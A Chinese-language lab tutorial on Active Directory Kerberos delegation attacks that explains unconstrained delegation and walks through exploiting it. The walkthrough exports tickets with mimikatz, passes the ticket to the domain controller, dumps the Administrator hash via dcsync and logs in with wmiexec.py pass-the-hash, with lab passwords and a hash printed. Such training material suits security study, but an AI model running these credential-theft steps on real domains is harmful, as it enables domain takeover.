 # 委派攻击

### 一、委派概述

#### 1.1 什么是委派

		域委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户的权限在域内展开活动。简而言之，就是若用户 A 将自己的权限委派给服务账户 B ，那么服务账户 B 就能以 A 的权限去访问其他服务。 

注：能够被委派的用户只能是服务账号或者机器账号。

- 服务账号：服务器运行服务时所用的账号，用于运行服务并将其加入域内。常见的服务账户有 SQLServer、MYSQL、IIS等。

- 机器账号：活动目录中的 Computers 组内的计算机，也被称为机器账号。

#### 1.2 委派的类别

		域委派分为三种：非约束性委派，约束性委派，基于资源的约束性委派。

### 二、非约束委派攻击

#### 2.1 原理概述

##### 2.1.1 非约束委派

		非约束委派（Unconstrained Delegation, UD）：服务账号可以获取被委派用户的 TGT ，并将 TGT 缓存到 lsass 进程中，从而服务账号可使用该 TGT ，模拟用户访问任意服务。

##### 2.1.2 非约束委派流程

![image-20230308163145727](https://woniumd.oss-cn-hangzhou.aliyuncs.com/security/zhengyu/202303081631007.png)

1. 域内用户A 经过Kerberos认证后访问WEB服务器上的资源或页面。
2. WEB服务器以服务账户B向 KDC 请求用户 A 的认证票据 TGT。
3. KDC检查服务账户B的委派属性，验证通过后下发 TGT。
4. 服务账户B利用 TGT 向 KDC 的 TGS 申请服务票据（ST），用于访问文件服务器等功能。
5. KDC检查委派属性和申请的服务，下发对应服务的ST。
6. 服务账户B使用 ST 访问其他服务，以获取对应资源。
7. 认证通过，获取到对应资源
8. Web服务器返回资源给用户A

#### 2.2 利用过程

##### 2.2.3 实验环境

DC（Windows Server 2012）：192.168.12.143 [域控]

Server（Windows Server 2008）：192.168.12.138 [普通域服务器]

域：woniu.com

域管理员：woniu\administrator  123456

Sever的本地管理员：server\administrator p-0p-0p-0

普通域用户：web p-0p-0p-0



- DC：机器账户的非约束性委派设置

  机器账户 server 的属性中设置委派属性，勾选“信任此计算机来委派任何服务...”，如下：

  ![image-20230309194649264](https://s2.loli.net/2023/03/11/KkJGzfhTtyYZxjo.png)

- DC：服务账户的非约束委派设置

  普通域用户无法进行委派，我们可以创建一个普通域用户，而后将其修改为服务账户，通过添加ServicePrincipalNames 属性进行修改。

  ```
  setspn -A https/web web
  ```

  ![image-20230309194806465](https://s2.loli.net/2023/03/11/GvsY5PeKSIjc2dm.png)

  而后再次查看对应web用户属性，即可发现委派选项，进行如下设置即可。

  ![image-20230309194856437](https://s2.loli.net/2023/03/11/e2clLQqtzu3K5EZ.png)

- SERVER：查看域内非约束性委派的机器用户

  ```
  AdFind.exe -b "DC=woniu,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
  ```

  ![image-20230309200646753](https://s2.loli.net/2023/03/11/yXxspOBouVMb18m.png)

  （注：域内域控机器账户默认设置了非约束委派）

- SERVER：查看域内非约束性委派的服务账户

  ```
  AdFind.exe -b "DC=woniu,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
  ```

  ![image-20230309200825173](https://s2.loli.net/2023/03/11/3EeIUtnO4iZj9Jv.png)



##### 2.2.4 实验过程

1. 模拟域管理员登录或远程访问其c盘，

   ```
   net use \\server /user:administrator 123456
   dir \\server\c$
   ```

   ![image-20230309201000497](https://s2.loli.net/2023/03/11/T8hKtO1y4nEkw5B.png)

2. 使用server的本地管理员登录server（Windows server 2008），使用 mimikatz 导出票据。

   ```
   privilege::debug
   sekurlsa::tickets /export
   ```

   ![image-20230309202535352](https://s2.loli.net/2023/03/11/fReSlIC1DciZUGv.png)

   在当前文件夹下查看到域管理员的票据，如下：

   ![image-20230309203206358](https://s2.loli.net/2023/03/11/qYUh5BgWn9aIlHC.png)

3. 导入票据前，访问 dc 的 c 盘，提示登录失败

   ![image-20230309203639924](https://s2.loli.net/2023/03/11/f8HoMCgi1LX7ZEx.png)

4. 使用 mimikatz 导入票据

   ```
   kerberos::ptt [0;a3871]-2-0-60a10000-Administrator@krbtgt-WONIU.COM.kirbi
   ```

   ![image-20230309203730384](https://s2.loli.net/2023/03/11/uPS2oE4ynMRp7cI.png)

   再次访问，发现成功访问dc的c盘。

   ![image-20230309203742984](https://s2.loli.net/2023/03/11/Kj9TfIFtMhriC5g.png)

5. 使用mimikatz的dcsync功能导出administrator的NTLM hash值

   dcsync 是 mimikatz的一个功能，利用的这个原理，通过 Directory Replication Service（DRS） 服务的 GetNCChanges 接口模仿一个域控制器向另一个域控制器发起数据同步请求，能够用来导出域内所有用户的hash。

   ```
   lsadump::dcsync /domain:woniu.com /user:Administrator
   ```

   ![image-20230309204157733](https://s2.loli.net/2023/03/11/85a9tymhrxUMdbC.png)

   ```
   32ed87bdb5fdc5e9cba88547376818d4
   ```

   

6. 使用 wmiexec.py 登录dc

   ```
   python3 /tmp/wmiexec.py -hashes 1111:32ed87bdb5fdc5e9cba88547376818d4 Administrator@192.168.12.143
   ```

   ![image-20230309204830391](https://s2.loli.net/2023/03/11/abXMwBSz1uEnAiF.png)